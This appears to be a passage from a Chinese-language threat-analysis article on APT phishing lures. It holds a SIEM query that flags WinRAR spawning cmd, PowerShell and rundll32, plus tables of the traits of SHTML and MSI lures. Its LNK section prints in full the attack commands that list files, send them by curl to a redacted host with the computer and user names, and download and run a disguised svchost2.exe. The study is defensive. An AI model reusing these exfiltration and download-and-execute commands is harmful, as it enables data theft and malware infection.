 像 WinRAR 这样的文件压缩工具创建 cmd、PowerShell 子进程是不常见的和可疑的。但是，钓鱼邮件在成功利用该漏洞后，恶意负载可能会生成这些进程来执行任意代码（例如：钓鱼邮件运行阶段）。我们可以查找 WinRAR.exe 生成的可疑子进程和文件路径：%APPDATA%\\Nvidia\\xxx.ocx 来判定是否为钓鱼邮件。

```bash
label= "Process" label= "Create" parent_process="*\winRAR.exe" 
"process" IN ["*\cmd.exe", "*\cscript.exe", "*\mshta.exe", "*\powershell.exe", 
"*\pwsh.exe", "*\regsvr32.exe", "*\rundll32.exe", "*\wscript.exe"]
```

##### APT-SHTML 诱饵 - 特征

| SHTML 诱饵特征 | 钓鱼邮件概率 |
| --- | --- |
| 非企业正式公文格式 | 90% |
| 邮件内容中的语法错误 | 50% |
| 可疑电子邮件地址 | 90% |
| 可疑登录页面 | 90% |
| 附带吸引眼球的文档 | 90% |
| 附带可疑 URL 链接 | 70%（大概率是灰产） |

##### APT-LNL 诱饵 - 特征

| CMD |
| --- |
| dir "%public%\\Documents" > %public%\\music\\logs.lgo & curl -X POST -F "file=@C:\\users\\public\\music\\logs.lgo" ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username% |
| curl -o %public%\\Documents\\svchost2.png [https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png) copy %public%\\Documents\\svchost2.png %public%\\Documents\\svchost2.exe |
| start %public%\\Documents\\svchost2.exe |

命令解读：

> 1.  通过**dir 命令**将公共文件夹中**Documents 目录**下的文件和文件夹列表输出到 logs.lgo 文件中。
> 2.  使用**curl 命令**将 logs.lgo 文件以 POST 请求的形式发送到**ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username%**这个 URL（其中，%computername%表示计算机名称，%username%表示当前用户名）。
> 3.  使用**curl 命令**从**[https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png)**下载文件，并将其保存为%public%\\Documents\\svchost2.png。
> 4.  使用**copy 命令**将**%public%\\Documents\\svchost2.png 文件**复制为**%public%\\Documents\\svchost2.exe 文件**。
> 5.  使用了**start 命令**来启动 **%public%\\Documents\\svchost2.exe**这个可执行文件。

##### APT-MSI 安装包 - 特征

| MSI 安装包特征 | 钓鱼邮件概率 |
| --- | --- |
| 将安装目录设置为 LocalAppDataFolder | 80% |
| 转储文件到安装目录 | 80% |
| 通过指定的命令行执行可执行文件 | 50% |
| 执行存储在二进制表中的 PE | 50% |
| 在安装目录中执行转储文件 | 80% |

